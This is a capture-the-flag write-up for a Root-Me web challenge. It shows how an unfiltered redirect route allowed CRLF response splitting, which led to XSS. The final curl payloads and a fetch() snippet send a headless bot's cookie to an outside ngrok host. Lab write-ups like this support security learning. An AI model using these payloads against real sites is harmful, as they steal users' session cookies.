 # Custom HTTP Server (day8)

<p align="justify">In this web challenge the goal was to attack a javascript website and retreive the flag. No informations were given about the way to process nor the location of the flag, but application source code was provided (attached to this repo). </p>

<p align="center"><img src="Screenshots/S1.png" alt="Desc" style="width:40%"></p>

<p align="justify">After a few read of the source code I spoted the snippet below giving me informations about the way I could have retreived the flag :</p>

````javascript
const cookie = {
        name: 'FLAG',
        value: 'RM{REDACTED}',
        domain: '127.0.0.1',
        path: '/',
        httpOnly: false,
        secure: false,
      };
````

<p align="justify">Indeed the flag was actually javascript bot's cookie (playright) set on the local domain. As a matter of fact; the website offered a report method (in the file app.js : /api/report) in which it was possible to send an url to the bot, so that it could have checked it and as result being trapped. Hence to solve this challenge I had to find a way to exfiltrate the cookie through XSS attack.  The schema of the challenge had been the following one : </p>

- First, I had to find a way to steal my own cookie , craft a valid payload
- Then I had to adjust payload for firefox browser especially, because playright bot works over firefox
- Finally I had to submit the payload on the report api so that the bot could have been trapped and sent its cookies

<p align="justify">At first I thought I had to bypass filter applied to XSS API as shown in the code snippet below. But after a few tries I gave up because of the sanitizer which was too restrictive (the filter is availabe under sanitizer.js in the source code zip) :</p>

````javascript
router.get('/api/xss', async (req, res) => {
  try {
      const { html } = req.query;
      const sanitized = Sanitizer.xss(html);
      res.html(sanitized);
  } catch (err) {
      res.badRequest();
  }
});
````

<p align="justify">I finaly spoted the redirect feature below, in which user input wasn't cleared nor processed; meaning it could have been exploited for injection and eventualy cross site scripting payload injection. Which looked interesting at this point : </p>

````javascript
router.get('/api/redirect', (req, res) => {
  const { url } = req.query;
  if (url) {
    res.redirect(url);
  } else {
    res.badRequest();
  }
});
````

<p align="justify">In this route, the user input was used to set the Location header for redirecting properly. Because of the lack of filters/CSP on the user input, it was possible possible to inject the parameter to send the bot onto an external website. That's what I tried; I deployed a server and made the bot fetching it. It came useless because cookie's bot was defined on 127.0.0.1 meaning the bot was fetching my server with document.cookie variable empty. After a few read, I came up with the idea of using \n\r chars to overwritte redirect page thanks to this insightful article about http response splitting <a href="https://blog.detectify.com/industry-insights/http-response-splitting-exploitations-and-mitigations/">doc</a>. On burp browser (chrome based) the exploit worked well and I was able to steel my own cookies with the following payload : </p>

````bash
curl -G "http://dyn-01.xmas.root-me.org:24694/api/report" --data-urlencode "url=http://127.0.0.1:3000/api/redirect?url=%0D%0AContent-Type%3A%20text%2Fhtml%20%0A%0A%3Chtml%3E%3Cscript%3Efetch%28%27http%3A%2F%2F7.tcp.eu.ngrok.io%3A18440%2F%27%29%3C%2Fscript%3E%3C%2Fhtml%3E%0A%0A"
````
Actually, \r\n chars triggered a 302 page meaning that page had been found on the server and well overwritten. At this point it was satisfying insofar as the payload was ran on the target domain: 

<p align="center"><img src="Screenshots/S4.png" alt="Desc"></p>

<p align="justify"> Nonetheless when testing the payload on firefox, it only triggered a redirect loop leading to abortion by firefox itself after too many redirections. After searching for known bypass I found (thanks Vic_V2 !) this documenation <a href="https://www.gremwell.com/firefox-xss-302">doc</a>, in which the loop redirect issue had been solved using websocket in Location headers. Hence, I adjusted my payload but faced a last obstacle , the CORS headers. To solve this problem, I added the following parameters for fetching my external server and to get around CORS restrictions: </p>

````javascript
fetch('http://7.tcp.eu.ngrok.io:18440/',
        {
                methode: 'POST',
                mode: 'no-cors',
                body: document.cookie
        }
)
````

Finally I came up with the final paylaod below :

````bash
curl -G "http://dyn-01.xmas.root-me.org:24694/api/report" --data-urlencode "url=http://127.0.0.1:3000/api/redirect?url=ws://google.com%0D%0AContent-Type%3A%20text%2Fhtml%20%0D%0A%0D%0A%3Chtml%3E%3Cscript%3Efetch%28%27http%3A%2F%2F7.tcp.eu.ngrok.io%3A18440%2F%27%2C%20%7Bmethode%3A%20%27POST%27%2C%20mode%3A%20%27no-cors%27%2C%20body%3A%20document.cookie%7D%29%3C%2Fscript%3E%3C%2Fhtml%3E%0A%0A"
````
After opening a listening port, I finally received the flag : 

<p align="center"><img src="Screenshots/S2.png" alt="Desc"></p>

Flag : _RM{Damnn_Chrome_And_Firefox_4re_S0_different}_ , thanks _Elweth_ for this challenge and a massive thanks to _Vic_V2_ for helping me out troubleshooting !

